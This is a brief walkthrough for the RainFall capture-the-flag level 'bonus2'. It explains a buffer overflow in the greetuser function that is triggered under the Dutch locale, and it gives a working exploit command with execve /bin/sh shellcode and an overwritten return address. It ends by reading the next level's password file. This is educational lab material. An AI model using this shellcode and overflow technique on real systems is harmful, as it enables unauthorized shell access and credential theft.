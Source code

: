 # Walkthrough

## Disassembling the executable

With objdump -D we locate the interesting functions main and greetuser that we are going to disassemble.

see source.c

## Exploit

The length of the buffer in greetuser does not allow for both the buffer from main and the string to be concatenated with. If the buffer from main is above 66 bytes, the buffer from main will seg fault. We exploit that to write a payload and modify the address in the eip register to jump on our payload

```
bonus2@RainFall:~$ export LANG="nl"
bonus2@RainFall:~$ /home/user/bonus2/bonus2 $(python -c "print('\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80' + 'A' * 16)") $(python -c "print('A' * 23 + '\x80\xf6\xff\xbf')")
Goedemiddag! 1�Ph//shh/bin��PS�ᙰ
                                AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA����
$ cat /home/user/bonus3/.pass 
```
